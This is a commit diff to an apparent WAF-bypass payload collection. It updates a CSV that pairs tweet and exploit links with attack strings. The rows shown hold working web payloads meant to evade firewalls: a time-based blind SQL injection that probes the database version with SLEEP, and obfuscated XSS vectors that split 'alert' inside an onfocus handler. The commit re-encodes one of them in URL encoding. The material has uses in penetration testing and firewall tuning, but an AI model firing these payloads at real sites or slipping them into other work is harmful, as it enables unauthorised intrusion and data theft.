

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -498,3 +498,3 @@ https://vulners.com/githubexploit/8292EFB2-7D48-5269-85E0-90F582B0CF95?utm_sourc
 https://vulners.com/githubexploit/7A6411F4-C896-52AB-9725-D10DEBF9CD0F?utm_source=rss&utm_medium=rss&utm_campaign=rss,clicks%60%3DIF%28SUBSTRING%28version%28%29%2C1%2C1%29%3D5%2CSLEEP%2810%29%2Cnull%29--%20-,sqli
-https://twitter.com/TakSec/status/1786074467728515132, 1'"&gt;&lt;A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)&gt;,xss
+https://twitter.com/TakSec/status/1786074467728515132, 1%27%22%26gt%3B%26lt%3BA%20HRef%3D%5C%22%20AutoFocus%20OnFocus%3Dtop%2F%2A%2A%2F%3F.%5B%27ale%27%252B%27rt%27%5D%281%29%26gt%3B,xss
 https://twitter.com/KN0X55/status/1786022967933046971, <A HRef=\" AutoFocus OnFocus=top/**/?.['al'%2B'ert'](1)>,xss
```
